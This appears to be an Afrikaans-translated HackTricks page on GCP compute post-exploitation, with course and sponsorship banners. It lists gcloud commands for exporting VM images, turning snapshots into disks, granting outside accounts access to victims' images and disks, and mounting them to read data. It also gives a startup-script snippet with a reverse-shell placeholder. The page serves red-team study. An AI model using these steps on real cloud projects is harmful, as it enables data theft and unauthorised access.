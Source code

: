 # GCP - Compute Post Exploitation

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy in HackTricks wil adverteer** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## Rekenaar

Vir meer inligting oor Rekenaar en VPC (Netwerking) kyk:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Voer & Inspekteer Beelde lokaal uit

Dit sal 'n aanvaller in staat stel om **toegang te verkry tot die data wat reeds in beelde bestaan** of **nuwe beelde van lopende VM's te skep** en toegang tot hul data te verkry sonder om toegang tot die lopende VM te hê.

Dit is moontlik om 'n VM-beeld na 'n emmer uit te voer en dit dan af te laai en lokaal te koppel met die opdrag:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Voordat hierdie aksie uitgevoer kan word, mag die aanvaller bevoegdhede oor die stoorbak benodig en beslis **bevoegdhede oor cloudbuild** aangesien dit die **diens** is wat gevra sal word om die uitvoer te doen.\
Verder moet die codebuild SA en die compute SA bevoorregte toestemmings hê.\
Die cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benodig:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

En die SA `<project-id>-compute@developer.gserviceaccount.com` benodig:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Voer Snapshots & Disks uit en ondersoek dit plaaslik

Dit is nie direk moontlik om snapshots en skywe uit te voer nie, maar dit is moontlik om **'n snapshot in 'n skyf te omskep, 'n skyf in 'n prent** en volgens die **vorige afdeling**, die prent uit te voer om dit plaaslik te ondersoek

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspekteer 'n Beeld deur 'n VM te skep

Met die doel om toegang te verkry tot die **data wat in 'n beeld gestoor is** of binne 'n **lopende VM** waar 'n aanvaller **'n beeld geskep het**, is dit moontlik om 'n eksterne rekening toegang te verleen oor die beeld:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```

en skep dan 'n nuwe VM daaruit:

```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

As jy nie eksterne toegang tot jou beeld kon gee nie, kan jy 'n virtuele masjien (VM) met daardie beeld in die slagoffers se projek begin en die metadata gebruik om 'n omgekeerde skulp uit te voer om toegang tot die beeld te verkry deur die parameter by te voeg:

```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```

### Inspekteer 'n Oorsig/Disk deur dit aan 'n VM te heg

Met die doel om toegang te verkry tot die **data wat in 'n disk of 'n oorsig gestoor is, kan jy die oorsig omskep na 'n disk, 'n disk na 'n prent en die vorige stappe volg.**

Of jy kan **'n eksterne rekening toegang verleen** tot die disk (as die beginpunt 'n oorsig is, gee toegang tot die oorsig of skep 'n disk daarvan):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```

**Koppel die skyf** aan 'n instansie:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```

Monteer die skyf binne die VM:

1. **SSH in die VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2. **Identifiseer die Skyf**: Sodra jy binne die VM is, identifiseer die nuwe skyf deur die lys van skyf-toestelle te vertoon. Gewoonlik kan jy dit vind as `/dev/sdb`, `/dev/sdc`, ens.
3. **Formateer en Monteer die Skyf** (as dit 'n nuwe of rou skyf is):

* Skep 'n monteer punt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

* Monteer die skyf:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

As jy **nie toegang kan gee aan 'n eksterne projek** tot die afskrif of skyf nie, moet jy dalk hierdie aksies **uitvoer binne 'n instansie in dieselfde projek as die afskrif/skyf**.

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
